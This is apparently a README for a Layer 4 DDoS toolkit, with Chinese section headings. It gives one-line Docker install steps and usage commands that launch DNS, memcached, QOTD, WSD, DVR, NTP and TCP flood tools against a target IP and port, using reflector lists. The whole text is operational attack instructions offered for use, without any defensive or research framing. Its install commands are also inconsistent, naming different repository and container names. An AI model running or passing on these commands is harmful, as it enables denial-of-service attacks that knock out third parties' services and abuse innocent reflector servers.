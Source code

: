 ### 安装 （docker）
apt update -y && apt install docker.io -y && git clone https://github.com/qq1521575701/dd.git && cd ddos-L4 && docker build -t ddos-L4 . && docker run -itd --name ddos-L4 --network host ddos-L4:latest && docker exec -it ddos /bin/bash

### 使用
docker exec -it ddos-L4 ./dns ip port dns.txt 1 -1 60 &

docker exec -it ddos-L4 ./meme ip port meme.txt 1 -1 60 &

docker exec -it ddos-L4 ./qotd ip port qotd.txt 1 -1 60 &

docker exec -it ddos-L4 ./wsd ip port wsd.txt 1 -1 60 &

docker exec -it ddos-L4 ./dvr ip port dvr.txt 1 -1 60 &

docker exec -it ddos-L4 ./ntp ip port ntp.txt 1 -1 60 &

docker exec -it ddos-L4 ./tcp ip port 1 -1 60 &
